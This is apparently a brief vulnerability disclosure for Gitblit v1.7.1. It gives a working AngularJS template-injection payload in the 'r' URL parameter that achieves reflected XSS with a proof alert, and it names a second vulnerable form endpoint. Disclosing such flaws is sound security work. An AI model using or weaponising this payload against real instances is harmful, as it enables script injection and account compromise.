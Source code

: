 Vulnerability: Angular Template Injection/Reflected XSS

Version: ```v1.7.1```


Authenticated: Yes

User: Admin

Vulnerable Parameter:
```r```

Payload:
```http://172.18.0.34/summary/?r=%7b%7bconstructor%2econstructor('alert(document.domain)')()%7d%7d```

Other locations are vulnerable as well, the POST request
```http://172.18.0.34/?wicket:interface=:101:searchForm::IFormSubmitListener::```

Will work as well but is not as easily weaponized

Tested on

```v1.7.1```

but unless that parameter is fixed it may just take a newer angular version payload to work

See demo

![](https://github.com/4rdr/proofs/blob/main/gifs/gitblit-v1.7.1-reflected-XSS-via-angularjs-expression.gif?raw=true)

